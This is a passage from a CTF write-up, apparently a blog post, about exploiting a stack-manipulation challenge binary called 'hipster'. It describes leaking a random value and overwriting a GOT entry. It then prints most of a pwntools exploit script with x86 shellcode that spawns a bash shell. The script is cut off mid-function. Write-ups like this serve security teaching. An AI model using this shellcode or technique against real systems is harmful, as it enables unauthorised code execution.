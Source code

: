 
# Shift back to stack #2 and read random value from top of stack
next_stack(r)
random_value = int(top_val(r).split("\n")[0], 10)
print "[+] Got random value: 0x%08x" % random_value
{% endhighlight %}

Now that we have the random value, we can start writing to an arbituary location by setting the top of stack to be our location of choice. Since we already have our shellcode in the program at this point, we just need a function pointer to point to our first stack. The GOT is a great place to overwrite for this :3 The rest of the exploit is pretty self explanatory.

Turns out the socket code was just left over from another version of the challenge, so nothing super secret about it :3

Here is the full exploit script ([pwntools is <3](http://pwntools.readthedocs.org)):

{% highlight python lineanchors %}
from pwn import *

#context.log_level = "DEBUG"

#r = remote("localhost", 2323)
r = remote("54.164.94.180", 1939)
pause()

elf = ELF("hipster")
shellcode = "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52" \
            "\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e" \
            "\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"

def new_stack(r):
    r.sendline(":new")
    return r.recvuntil("==> ")

def next_stack(r):
    r.sendline(":next")
    return r.recvuntil("==> ")

def top_val(r):
    r.sendline(":top")
    return r.recvuntil("==> ")

def disp_stack(r):
    r.sendline(":disp")
    return r.recvuntil("==> ")

def del_stack(r):
    r.sendline(":del")

def send_val(r, v):
    r.sendline(str(v))
    return r.recvuntil("==> ")

def send_vals(r, v):
    for a in [v[i:i+14] for i in range(0, len(v), 14)]:
        send_val(r, a)

def write_num(r, num):
    out = []
    while num > 9:
        expression = []
        total = 0
        for i in range(9, 1, -1):
            while num != total and num >= total*i:
                if total:
                    total *= i
                else: